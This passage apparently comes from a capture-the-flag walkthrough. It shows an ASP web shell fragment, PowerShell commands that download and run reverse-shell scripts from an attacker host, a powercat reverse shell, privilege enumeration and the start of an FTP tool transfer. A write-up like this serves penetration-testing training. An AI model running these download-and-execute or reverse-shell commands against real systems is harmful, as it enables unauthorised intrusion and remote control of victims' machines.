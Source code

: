 ``o = cmd.StdOut.Readall()``

``Response.write(o)``

``Response.write(1+2)``

``%>``



``Set cmd = s.Exec ("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')")``

### OR 

``Set cmd = s.Exec("cmd.exe /c powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Nishangrev.ps1')")``


![image](https://user-images.githubusercontent.com/123066149/220458571-e8616ef9-0daf-4c41-9e7a-8ae8944032b1.png)


![image](https://user-images.githubusercontent.com/123066149/220458631-54bdde53-e959-45c0-90f3-4c6b30c47538.png)


# ${{\color{purple}Privilege Escalation}}\ $

### After a small enumeration it is possible to notice that we have rights :

``SeChangeNotifyPrivilege``

``SeImpersonatePrivilege``

![image](https://user-images.githubusercontent.com/123066149/220458967-5c686876-5ccb-4a0d-b762-ac645dfe55b2.png)


### I decide to redirect the shell to a classical cmd shell because the porwershell shell prevents me from executing binaries 
### For this I use powercat:

``IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5:80/powercat.ps1');powercat -c 10.10.16.5 -p 4444 -e cmd.exe``

![image](https://user-images.githubusercontent.com/123066149/220460046-bbfdde15-e010-4355-8b1d-ea52562a1bca.png)

### I used FTP/WGET/powershell Invoke-WebRequest : but nothing worked for the download of my tools the only solution that works is the SMB share :

-----------FTP------------------
``echo open 10.10.16.5 21> ftp.txt``

``echo USER offsec>> ftp.txt``
